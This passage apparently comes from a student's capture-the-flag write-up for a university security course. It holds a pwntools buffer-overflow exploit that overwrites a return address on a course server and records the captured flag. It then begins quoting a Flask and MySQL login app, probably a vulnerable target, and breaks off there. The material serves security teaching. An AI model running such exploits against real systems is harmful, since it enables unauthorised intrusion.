 ```Python
#!/usr/bin/python2
import pwn
from struct import *

desired_ret = 0x401162 #We know that desassembling it with gdb
c = pwn.remote('shepherd.ii.uib.no', 9002)


offset = pwn.cyclic_find('kaaa') #This is the substring in my pattern in the top
#of the stack as we saw in gdb

buf = pwn.cyclic(offset)

buf += pwn.p64(desired_ret)

c.sendline(buf) #we sent the payload

f = open("out_2.txt", "w") #file where the results are going to save

f.write(c.recvall()) #receiving the results and writting them in out.txt.
```


[Exploit with pwntools](https://github.com/jhaos/inf226/blob/master/pwn/entregar/pwn2_script.py)

##### Flag is: INF226{gg_f0r_c0ntr0ll1ng_31P}

Flag received from the server](https://github.com/jhaos/inf226/blob/master/pwn/entregar/out_2.txt)

### 0x03

```Python
from flask import Flask, json, render_template, request, redirect, url_for
import mysql.connector
import os
import socket

flag = <SNIPPED>
app = Flask(__name__)
def opendb():
  config = <SNIPPED>
  
  connection = mysql.connector.connect(**config)
  cursor = connection.cursor()
  
  return (connection, cursor)
  
def closedb(connection, cursor):
  cursor.close()
  connection.close()
 
@app.route("/")
def main():
  return redirect(url_for('showSignIn'))
  
@app.route('/showSignIn')
def showSignIn():
  return render_template('signin.html')

@app.route('signIn', methods=['POST'])
def signIn():
  _name = request.form.get('inputName')
  _password = request.form.get('inputPassword')
  
  if not _name or not _password:
```